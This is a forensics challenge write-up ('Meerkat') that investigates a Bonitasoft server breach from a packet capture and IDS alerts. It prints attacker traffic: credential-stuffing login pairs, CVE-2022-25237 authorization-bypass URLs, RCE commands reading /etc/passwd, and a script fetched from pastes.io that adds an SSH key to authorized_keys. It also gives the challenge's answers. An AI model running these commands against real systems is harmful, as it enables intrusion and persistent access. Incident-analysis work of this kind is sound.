




# Meerkat
As a fast growing startup, Forela have been utilising a business management platform. Unfortunately our documentation is scarce and our administrators aren't the most security aware. As our new security provider we'd like you to take a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

## Files
* meerkat-alerts.json
* meerkat.pcap

## Solution
### Task 1
We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?

A Business Management platform is probably hosted as a web service. So we can filter the PCAP for HTTP traffic:


We can see that there are many failed login attempts for the web directory `/bonita`.

Searching for this application name, brings us to the software developer `BonitaSoft`.

### Task 2
We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?

As we already noticed, there are several failed login attempts. This can be recognized by the many `POST` requests, followed by a `401` response. We can filter for those responses with the input `POST` value:
```
$ tshark -r meerkat.pcap -Y 'ip.src == 156.146.62.213 and http.request.method == "POST"' -T fields -e http.request.method -e http.request.version -e http.request.full_uri -e http.file_data | head
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/loginservice    username=install&password=install&_l=en
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/loginservice    username=Clerc.Killich%40forela.co.uk&password=vYdwoVhGIwJ&_l=en
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/loginservice    username=install&password=install&_l=en
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/loginservice    username=Lauren.Pirozzi%40forela.co.uk&password=wsp0Uy&_l=en
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/loginservice    username=install&password=install&_l=en
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/loginservice    username=Merna.Rammell%40forela.co.uk&password=u7pWoF36fn&_l=en
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/loginservice    username=install&password=install&_l=en
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/loginservice    username=Gianina.Tampling%40forela.co.uk&password=maUIffqQl&_l=en
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/loginservice    username=install&password=install&_l=en
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/loginservice    username=Konstance.Domaschke%40forela.co.uk&password=6XLZjvD&_l=en
$
```

To extract the used usernames we can use this:
```
$ tshark -r meerkat.pcap -Y 'ip.src == 156.146.62.213 and http.request.method == "POST"' -T fields -e urlencoded-form.value | awk -F, '{print $1}'
install
Clerc.Killich@forela.co.uk
install
Lauren.Pirozzi@forela.co.uk
install
Merna.Rammell@forela.co.uk
install
Gianina.Tampling@forela.co.uk
install
Konstance.Domaschke@forela.co.uk
install
Vida.Murty@forela.co.uk
install
Elka.Cavet@forela.co.uk
install
Noam.Harvett@forela.co.uk
install
Norbie.Bartolini@forela.co.uk
install
Cariotta.Whife@forela.co.uk
install
Mella.Amsberger@forela.co.uk
install
Cyndy.Element@forela.co.uk
install
Imelda.Braben@forela.co.uk

[...]
```

The attacker used repeatedly the login name install and a mail of an employee of the startup Forela. The passwords look similar:
```
$ tshark -r meerkat.pcap -Y 'ip.src == 156.146.62.213 and http.request.method == "POST"' -T fields -e urlencoded-form.value | awk -F, '{print $2}'
install
vYdwoVhGIwJ
install
wsp0Uy
install
u7pWoF36fn
install
maUIffqQl
install
6XLZjvD
install
4ulecG
install
n1aSdc
install
VDt8bh
install
GV2zlop

[...]
```

This technique looks like to prevent any detection or IP blocking. `install:install` are the default credentials of Bonita (as explained [here](https://documentation.bonitasoft.com/bonita/2021.1/tenant_admin_credentials)).

The forced `username:password` pairs could be extracted like this:
```
$ tshark -r meerkat.pcap -Y 'ip.src == 156.146.62.213 and http.request.method == "POST"' -T fields -e urlencoded-form.value | awk -F, '{print $1"\t"$2}' | grep -v install
Clerc.Killich@forela.co.uk      vYdwoVhGIwJ
Lauren.Pirozzi@forela.co.uk     wsp0Uy
Merna.Rammell@forela.co.uk      u7pWoF36fn
Gianina.Tampling@forela.co.uk   maUIffqQl
Konstance.Domaschke@forela.co.uk        6XLZjvD
Vida.Murty@forela.co.uk 4ulecG
Elka.Cavet@forela.co.uk n1aSdc
Noam.Harvett@forela.co.uk       VDt8bh
Norbie.Bartolini@forela.co.uk   GV2zlop
Cariotta.Whife@forela.co.uk     x3hoU0
Mella.Amsberger@forela.co.uk    4nIYM5WqN
Cyndy.Element@forela.co.uk      ybWxct
Imelda.Braben@forela.co.uk      dC7bjGLYB
Marven.Samuel@forela.co.uk      LPU0qQnt108
Osborne.Humpatch@forela.co.uk   OJ4WHcI4D
Talya.Sterman@forela.co.uk      3gCERZ2JMh
Drusilla.Nice@forela.co.uk      l35Euh0T3Am
Tobiah.Horstead@forela.co.uk    fp0OQl
Kayley.Northway@forela.co.uk    s9MC7mkdVU
Adora.Mersh@forela.co.uk        85Hh8JZkJR6
Guss.Botten@forela.co.uk        sVMRgGmv0sE
Cordelie.Rostron@forela.co.uk   mAtdcJh
Ellerey.Bierling@forela.co.uk   Nva0nKTz
Berny.Ferrarin@forela.co.uk     lPCO6Z
Nefen.Heffernon@forela.co.uk    VR0ZA8
Skipton.Pickerill@forela.co.uk  lcsui1Nu
Nola.Crichmer@forela.co.uk      QGa58W3L
Sharon.Claus@forela.co.uk       3X4d06I
Bernelle.Draycott@forela.co.uk  MmxlUAWe0oW
Samaria.Percifull@forela.co.uk  CUgc3hzHw5g
Puff.Yapp@forela.co.uk  M08Aae
Cynthia.Hatto@forela.co.uk      z0NXI6
seb.broom@forela.co.uk  g0vernm3nt


Alexi.Siman@forela.co.uk        iUS11pX
Pete.Panons@forela.co.uk        BKdkGTB
Rakel.Cawley@forela.co.uk       h4gW3YLwnW9t
Merl.Lavalde@forela.co.uk       BgfiOVXNLBc
Antoinette.Vittel@forela.co.uk  bGtHL8cg
Stanleigh.Tuckwell@forela.co.uk VQCk8TGn3
Denny.Gepson@forela.co.uk       q2JqCSXk69
Aline.Rivallant@forela.co.uk    gFixyf1nGgf
Jordain.Eykel@forela.co.uk      rnMXBNdNW0
Gypsy.Henric@forela.co.uk       lLPqVgmHs5F
Adrea.Shervil@forela.co.uk      7YoFhtUq
Jenilee.Pressman@forela.co.uk   3eYwLOKhQEcl
Fredrick.Gerraty@forela.co.uk   W1By0HUByDHO
Ebony.Oleszcuk@forela.co.uk     uAWnyfKOjQM
Garrard.Colisbe@forela.co.uk    jMi9iP
Farleigh.Schouthede@forela.co.uk        JzI6Dvhy
Ahmed.Monteaux@forela.co.uk     6uskrtw8U
Griffith.Lumm@forela.co.uk      QPepd0M8wBK
Winston.Conville@forela.co.uk   cEmh5W2Vh
Pat.Kloisner@forela.co.uk       N8ZwVMzF6
Teresita.Benford@forela.co.uk   uvYjtQzX
Mathian.Skidmore@forela.co.uk   TQSNp6XrK
Gerri.Cordy@forela.co.uk        w15pvWGTK
$
```

Those login pairs look like valid pairs that could be stolen from a data breach or something similar. Now the attacker tries to use those credentials to log into different applications. In this case for Bonita.

This technique is called `Credential Stuffing`.

### Task 3
Does the vulnerability exploited have a CVE assigned - and if so, which one?

The provided log was probably generated by an Intrusion Detection System or something similar. If we search for CVE's we find the `CVE-2022-25237` for BonitaSoft:
```
$ cat meerkat-alerts.json | jq | grep -i cve | sort | uniq
        "cve": [
          "CVE_2022_25237"
      "signature": "ET EXPLOIT Bonitasoft Authorization Bypass and RCE Upload M1 (CVE-2022-25237)",
      "signature": "ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)",
      "signature": "ET EXPLOIT Bonitasoft Successful Default User Login Attempt (Possible Staging for CVE-2022-25237)",
      "signature": "ET WEB_SPECIFIC_APPS Bonitasoft Default User Login Attempt M1 (Possible Staging for CVE-2022-25237)",
$
```

### Task 4
Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?

From https://nvd.nist.gov/vuln/detail/CVE-2022-25237:

_Bonita Web 2021.2 is affected by a authentication/authorization bypass vulnerability due to an overly broad exclude pattern used in the RestAPIAuthorizationFilter. By appending `;i18ntranslation` or `/../i18ntranslation/` to the end of a URL, users with no privileges can access privileged API endpoints. This can lead to remote code execution by abusing the privileged API actions._

We can also verify this in the PCAP:
```
$ tshark -r meerkat.pcap -Y 'http' -T fields -e http.request.method -e http.request.version -e http.request.full_uri -e http.file_data | grep i18ntranslation
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/API/pageUpload;i18ntranslation?action=add       --cb15c93cad4566f30232d5ecac68b23a\r\nContent-Disposition: form-data; name="file"; filename="rce_api_extension.zip"\r\nContent-Type: application/octet-stream\r\n\r\nPK\n
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/API/portal/page/;i18ntranslation        {"contentName": "rce_api_extension.zip", "pageZip": "tmp_14830419339383496080.zip"}
DELETE  HTTP/1.1        http://forela.co.uk:8080/bonita/API/portal/page/130;i18ntranslation
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/API/pageUpload;i18ntranslation?action=add       --f79968fcad082cab61a2fc649dab366c\r\nContent-Disposition: form-data; name="file"; filename="rce_api_extension.zip"\r\nContent-Type: application/octet-stream\r\n\r\nPK\n
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/API/portal/page/;i18ntranslation        {"contentName": "rce_api_extension.zip", "pageZip": "tmp_2823049839936328099.zip"}
DELETE  HTTP/1.1        http://forela.co.uk:8080/bonita/API/portal/page/131;i18ntranslation
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/API/pageUpload;i18ntranslation?action=add       --156229b36f5de4a23bccbc878d0d8a26\r\nContent-Disposition: form-data; name="file"; filename="rce_api_extension.zip"\r\nContent-Type: application/octet-stream\r\n\r\nPK\n
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/API/portal/page/;i18ntranslation        {"contentName": "rce_api_extension.zip", "pageZip": "tmp_1743116099114333531.zip"}
DELETE  HTTP/1.1        http://forela.co.uk:8080/bonita/API/portal/page/132;i18ntranslation
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/API/pageUpload;i18ntranslation?action=add       --7ba185551eb7b4ef7035d691317837e9\r\nContent-Disposition: form-data; name="file"; filename="rce_api_extension.zip"\r\nContent-Type: application/octet-stream\r\n\r\nPK\n
POST    HTTP/1.1        http://forela.co.uk:8080/bonita/API/portal/page/;i18ntranslation        {"contentName": "rce_api_extension.zip", "pageZip": "tmp_12955417665131086996.zip"}
DELETE  HTTP/1.1        http://forela.co.uk:8080/bonita/API/portal/page/133;i18ntranslation
$
```

### Task 5
How many combinations of usernames and passwords were used in the credential stuffing attack?

We already analyzed the combinations. We just have to count them:
```
$ tshark -r meerkat.pcap -Y 'ip.src == 156.146.62.213 and http.request.method == "POST"' -T fields -e urlencoded-form.value | awk -F, '{print $1"\t"$2}' | grep -v install | wc -l
58
$
```
There were two blank line in the output. So the valid answer would be `56`.

### Task 6
Which username and password combination was successful?

The blank lines were after the combination `seb.broom@forela.co.uk:g0vernm3nt`. So probably this was the correct one.

We can verify this if we search for the only `POST` request with a `2XX` response and take a closer look into the HTTP stream:


### Task 7
If any, which text sharing site did the attacker utilise?

We can look into the `GET` request ULSs that were done in the PCAP:
```
$ tshark -r meerkat.pcap -Y 'http.request.method == "GET"' -T fields -e http.request.uri
/bonita
/bonita/portal/homepage
/bonita/API/extension/rce?p=0&c=1&cmd=whoami
/bonita/API/extension/rce?p=0&c=1&cmd=cat%20/etc/passwd
/bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8
/bonita/API/extension/rce?p=0&c=1&cmd=bash%20bx5gcr0et8
/ubuntu/pool/main/l/lapack/libblas3_3.10.0-2ubuntu1_amd64.deb
/ubuntu/pool/universe/libl/liblinear/liblinear4_2.3.0%2bdfsg-5_amd64.deb,/ubuntu/pool/main/l/lua5.3/liblua5.3-0_5.3.6-1build1_amd64.deb,/ubuntu/pool/universe/l/lua-lpeg/lua-lpeg_1.0.2-1_amd64.deb,/ubuntu/pool/universe/n/nmap/nmap-common_7.91%2bdfsg1%2breally7.80%2bdfsg1-2build1_all.deb,/ubuntu/pool/universe/n/nmap/nmap_7.91%2bdfsg1%2breally7.80%2bdfsg1-2build1_amd64.deb
$
```

In here we find especially this request:
```
/bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8
```

The attacker used `pastes.io`.

### Task 8
Please provide the file hash of the script used by the attacker to gain persistent access to our host.

We already found the HTTP stream were the attacker successful logged in. If we watch closer into the stream we can find a file upload of file called `rce_api_extension.zip`:


In Wireshark we can now go to `File -> Export Objects -> HTTP ...`, search for the packet ID or use the content type `multipart/form-data` and save the file.

The exported file still has a file header from the web browser that we have to remove:


The bytes `0D 0A 0D 0A` indicates the end of the header. Until here we can remove everything. That done we got the uploaded file:
```
$ file rce_api_extension.zip 
rce_api_extension.zip: Zip archive data, at least v1.0 to extract, compression method=store

$ unzip -l rce_api_extension.zip
Archive:  rce_api_extension.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2022-04-13 09:31   META-INF/
        0  2022-04-13 09:31   META-INF/maven/
        0  2022-04-13 09:31   META-INF/maven/com.company.rest.api/
        0  2022-04-13 09:31   META-INF/maven/com.company.rest.api/resourceNameRestAPI/
        0  2022-04-13 09:31   lib/
     1565  2022-04-13 09:41   page.properties
     6982  2022-01-11 13:09   META-INF/maven/com.company.rest.api/resourceNameRestAPI/pom.xml
      138  2022-04-13 09:31   META-INF/maven/com.company.rest.api/resourceNameRestAPI/pom.properties
    12846  2022-04-13 09:31   lib/resourceNameRestAPI-1.0.0-SNAPSHOT.jar
---------                     -------
    21531                     9 files
$
```

But then I noticed that this wasn't the file that was meant here. This java application is related to the RCE vulnerability and not the actions on the system itself.

This file was several times upload. After the last one the attacker accessed the text sharing site that we already mentioned. We can access this file:
```
$ curl https://pastes.io/raw/bx5gcr0et8
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart$
$

$ wget https://pastes.io/raw/bx5gcr0et8
--2023-11-14 15:52:52--  https://pastes.io/raw/bx5gcr0et8
Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
Resolving pastes.io (pastes.io)... 66.29.132.145
Connecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 113 [text/plain]
Saving to: ‘bx5gcr0et8’

bx5gcr0et8                              100%[=============================================================================>]     113  --.-KB/s    in 0s

2023-11-14 15:52:53 (349 MB/s) - ‘bx5gcr0et8’ saved [113/113]

$ md5sum bx5gcr0et8
0dc54416c346584539aa985e9d69a98e  bx5gcr0et8

$ cat bx5gcr0et8
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart$
$
```

### Task 9
Please provide the file hash of the public key used by the attacker to gain persistence on our host.

The public key is downloaded in the shell script from Task 8:
```
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
```

We can download and get create the file hash again:
```
$ curl https://pastes.io/raw/hffgra4unv
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgruRMq3DMroGXrcPeeuEqQq3iS/sAL3gryt+nUqbBA/M+KG4ElCvJS4gP2os1b8FMk3ZwvrVTdpEKW6wdGqPl2wxznBjOBstx6OF2yp9RIOb3c/ezgs9zvnaO07YC8Sm4nkkXHgkabqcM7rHEY4Lay0LWF9UbxueSAHIJgQ2ADbKSnlg0gMnJTNRwKbqesk0ZcG3b6icj6nkKykezBLvWc7z4mkSm28ZVTa15W3HUWSEWRbGgJ6eMBdi7WnWXZ92SYDq0XUBV2Sx2gjoDGHwcd6I0q9BU52wWYo3L3LaPEoTcLuA+hnn82086oUzJfmEUtWGlPAXfJBN7vRIMSvsN$

$ wget https://pastes.io/raw/hffgra4unv
--2023-11-14 15:58:34--  https://pastes.io/raw/hffgra4unv
Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
Resolving pastes.io (pastes.io)... 66.29.132.145
Connecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 380 [text/plain]
Saving to: ‘hffgra4unv’

hffgra4unv                              100%[=============================================================================>]     380  --.-KB/s    in 0s

2023-11-14 15:58:36 (17.8 MB/s) - ‘hffgra4unv’ saved [380/380]

$ cat hffgra4unv
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgruRMq3DMroGXrcPeeuEqQq3iS/sAL3gryt+nUqbBA/M+KG4ElCvJS4gP2os1b8FMk3ZwvrVTdpEKW6wdGqPl2wxznBjOBstx6OF2yp9RIOb3c/ezgs9zvnaO07YC8Sm4nkkXHgkabqcM7rHEY4Lay0LWF9UbxueSAHIJgQ2ADbKSnlg0gMnJTNRwKbqesk0ZcG3b6icj6nkKykezBLvWc7z4mkSm28ZVTa15W3HUWSEWRbGgJ6eMBdi7WnWXZ92SYDq0XUBV2Sx2gjoDGHwcd6I0q9BU52wWYo3L3LaPEoTcLuA+hnn82086oUzJfmEUtWGlPAXfJBN7vRIMSvsN$

$ md5sum hffgra4unv
dbb906628855a433d70025b6692c05e7  hffgra4unv
$
```

### Task 10
Can you confirmed the file modified by the attacker to gain persistence?

The script stores the public key in the file `/home/ubuntu/.ssh/authorized_keys` to gain access over key authentication.

### Task 11
Can you confirm the MITRE technique ID of this type of persistence mechanism?

[MITRE ATT&CK](https://attack.mitre.org/) defines Adversarial Tactics, Techniques, and Common Knowledge to classify cyberattacks and intrusions. If we select _Persistence_ we find the first item _Account Manipulation_ with the ID `T1098`. The fourth entry here is _SSH Authorized Keys_ which describes the same procedure as our attacker. The ID of this subitem is `.004`. So the full ID that we are looking for is `T1098.004`.